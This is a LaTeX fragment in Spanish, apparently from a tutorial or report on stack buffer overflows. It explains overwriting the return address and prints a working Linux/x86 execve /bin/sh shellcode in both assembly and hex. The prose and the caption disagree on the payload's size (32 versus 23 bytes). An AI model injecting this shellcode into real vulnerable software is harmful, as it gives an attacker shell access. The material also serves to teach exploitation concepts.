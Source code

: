 \documentclass[a4paper,oneside]{article}
\begin{document}
\begin{figure}[h!]
  \centering
  \includegraphics[scale=0.7]{images/overflow2.png}\\
  \caption{Contenido del stack: La dirección de retorno es la seleccionada. Controlamos el input exacto que tenemos que poner para controlar la dirección de retorno}
  \label{fig:overflow2}
\end{figure}

\newpage
Llegados a este punto estamos en disposición de introducir un input más elaborado que nos permita ejecutar un shellcode. Con la ayuda de este seremos capaces de inyectar en la pila el código que nos interesa ejecutar y la llamada al mismo [Ver \ref{lst:shellcode}].\\

\newpage
Existen muchos shellcodes que podemos insertar, en shell-storm.org \cite{shellstorm} encontramos una gran variedad y para reducir la cantidad de bytes a introducir en la inyección hemos seleccionado una serie de instrucciones que ejecutan el proceso \textbf{execve} en tan solo 32 bytes [Ver. \ref{lst:assembler}].\\

El método execve ejecuta un programa pasado por parámetro, haciendo que el programa que está siendo ejecutado sea substituido por el de la nueva llamada \cite{execve}; perfecto para llamar a la shell del sistema.

\begin{lstlisting}[
	language={[x86masm]Assembler}, 
	caption=Linux/x86 execve /bin/sh shellcode 23 bytes,
	label={lst:assembler}
	]
xor    %eax,%eax
push   %eax
push   $0x68732f2f
push   $0x6e69622f
mov    %esp,%ebx
push   %eax
push   %ebx
mov    %esp,%ecx
mov    $0xb,%al
int    $0x80
\end{lstlisting}

El código en hexadecimal que traduce estas instrucciones será inyectado por nuestro programa en la pila [Ver. \ref{lst:hex}].
\begin{lstlisting}[label={lst:hex}, caption=Codificación hexadecimal de las instrucciones en ensamblador]
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
\end{lstlisting}
\end{document}
